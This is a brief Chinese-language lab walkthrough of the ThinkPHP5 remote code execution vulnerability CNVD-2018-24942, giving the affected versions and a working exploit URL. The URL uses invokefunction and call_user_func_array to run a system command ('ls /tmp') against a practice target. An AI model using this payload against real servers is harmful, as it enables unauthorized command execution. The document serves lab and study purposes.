



# ThinkPHP5 远程代码执行漏洞（CNVD-2018-24942）by  [M2ayill](https://github.com/M2ayill)

## 一、漏洞描述

ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 二、影响产品

上海顶想信息科技有限公司 ThinkPHP 5.*，<5.1.31

上海顶想信息科技有限公司 ThinkPHP <=5.0.23

## 三、利用流程

1 此漏洞对应靶场环境为 thinkphp5x 任意代码执行漏洞 (cnvd-2018-24942)



2 访问其如图所示



3 在其地址增加路径与参数即可

```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
```

4 成功得到 flag



参考：

https://www.cnvd.org.cn/flaw/show/CNVD-2018-24942
